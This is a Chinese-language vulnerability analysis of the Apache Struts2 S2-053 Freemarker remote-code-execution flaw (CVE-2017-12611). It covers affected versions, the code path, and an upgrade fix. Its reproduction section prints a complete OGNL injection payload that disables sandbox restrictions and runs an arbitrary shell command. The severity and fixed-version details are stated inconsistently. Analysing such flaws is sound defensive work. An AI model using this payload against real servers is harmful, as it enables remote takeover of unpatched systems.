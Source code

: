 # Struts2-053漏洞分析

![](imgs/strust2.jpg)

## 1.&emsp;漏洞描述

* 漏洞描述：当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞。
* 漏洞编号：CVE-2017-12611
* 影响版本：
  * Struts 2.0.1 - 2.3.33
  * Struts 2.5 - 2.5.10
* 漏洞等级：高危

## 2. 漏洞简介

| Who should read this    | All Struts 2 developers and users        |
| ----------------------- | ---------------------------------------- |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                 |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10 |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team |
| CVE Identifier          | CVE-2017-12611                           |

## 3.&emsp;漏洞分析

### 3.1  漏洞说明

​	2017年9月7日，Struts官方发布一个中危的安全漏洞，该漏洞编号为:S2-053,在一定条件下，当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞，存在一定的安全风险。赛宁网安将对该漏洞进行持续关注，并第一时间为您更新相关漏洞信息。

### 3.2  漏洞分析

​	当在Freemarker标签中使用表达式常量或强制表达式时使用请求值可能会导致远程代码执行漏洞（见下面的示例）。

```java
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />
```

在这两种情况下，值属性都使用可写属性，都会受到Freemarker的表达式的影响。

再将默认的execute方法执行的结果集通过DefaultActionInvocation中的createResult方法传递到ftl模板里

![](imgs/1.png)

![](imgs/2.png)

![](imgs/3.png)

然后接着取出了payload

![](imgs/4.png)

最终FreeMarker模板使用assign指令调用struts.translateVariables方法去执行keyValue的栈顶元素。

## 4.&emsp;漏洞复现

1. 访问工程，看到输入框，输入值直接返回

![](imgs/5.png)

2. 输入payload：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm): ((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').
(#iswin= (@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new
java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

替换Exp中的 `(#cmd='whoami')` 中的命令即可。

![](imgs/6.png)

成功返回命令执行信息。

## 5.&emsp;修复方案

 	升级Apache Struts到version 2.5.13

